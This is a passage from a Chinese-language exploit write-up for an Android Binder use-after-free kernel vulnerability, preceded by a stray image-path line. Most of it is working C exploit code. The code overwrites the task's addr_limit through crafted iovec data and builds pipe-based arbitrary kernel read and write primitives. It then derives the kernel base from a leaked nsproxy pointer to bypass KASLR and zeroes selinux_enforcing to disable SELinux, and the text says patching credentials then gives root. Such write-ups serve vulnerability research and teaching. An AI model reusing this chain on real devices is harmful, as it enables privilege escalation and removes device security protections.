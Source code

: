 ``` c
static uint64_t finalSocketData[] = {
            0x1,                    // iovecStack[IOVEC_WQ_INDEX].iov_len
            0x41414141,             // iovecStack[IOVEC_WQ_INDEX + 1].iov_base
            0x8 + 0x8 + 0x8 + 0x8,  // iovecStack[IOVEC_WQ_INDEX + 1].iov_len
            (uint64_t) ((uint8_t *) m_task_struct +
                        OFFSET_TASK_STRUCT_ADDR_LIMIT), // iovecStack[IOVEC_WQ_INDEX + 2].iov_base
            0xFFFFFFFFFFFFFFFE      // addr_limit value
    };
```

对应上面的值。

到这里我们就有了完整的内核读写权限，接下绕过kaslr、禁用SElinux、patchCred就可以获得root权限。

#### bypass kaslr and Disabling SELinux

前面已经了有了完整的读写权限，那这就很简单了。

任意读写的实现：

``` C
void BinderUaF::kRead(void *Address, size_t Length, void *uBuffer) {
    ssize_t nBytesWritten = write(m_kernel_rw_pipe_fd[1], Address, Length);
    if ((size_t) nBytesWritten != Length) {
        ERR("[-] Failed to write data from kernel: %p", Address);
        exit(EXIT_FAILURE);
    }
    ssize_t nBytesRead = read(m_kernel_rw_pipe_fd[0], uBuffer, Length);
    if ((size_t) nBytesRead != Length) {
        ERR("[-] Failed to read data from kernel: %p", Address);
        exit(EXIT_FAILURE);
    }
}

void BinderUaF::kWrite(void *Address, size_t Length, void *uBuffer) {
    ssize_t nBytesWritten = write(m_kernel_rw_pipe_fd[1], uBuffer, Length);
    if ((size_t) nBytesWritten != Length) {
        ERR("[-] Failed to write data from user: %p", Address);
        exit(EXIT_FAILURE);
    }
    ssize_t nBytesRead = read(m_kernel_rw_pipe_fd[0], Address, Length);
    if ((size_t) nBytesRead != Length) {
        ERR("[-] Failed to write data to kernel: %p", Address);
        exit(EXIT_FAILURE);
    }
}
```

任意读的话，利用write和read两个系统调用，使用write将数据写到pipe，并在管道的另一端read一个内核地址，就可以将数据写入该内核地址。任意写的话，与之相反。这样就实现了任意读写。

task_struct 有一个全局指针nsproxy ，前面已经泄露出来了，就可以更具偏移直接算出Kernel_base_addr。

``` c
    ptrdiff_t kernelBase = nsProxy - SYMBOL_OFFSET_init_nsproxy;
    auto selinuxEnforcing = (void *) (kernelBase + SYMBOL_OFFSET_selinux_enforcing);
    INFO("\t[*] nsproxy: 0x%lx\n", nsProxy);
    INFO("\t[*] Kernel base: 0x%lx\n", kernelBase);
    INFO("\t[*] selinux_enforcing: %p\n", selinuxEnforcing);
    int selinuxEnabled = kReadDword(selinuxEnforcing);
    if (!selinuxEnabled) {
        INFO("\t[*] selinux enforcing is disabled\n");
        return;
    }
    INFO("\t[*] selinux enforcing is enabled\n");

    kWriteDword(selinuxEnforcing, 0x0);
```
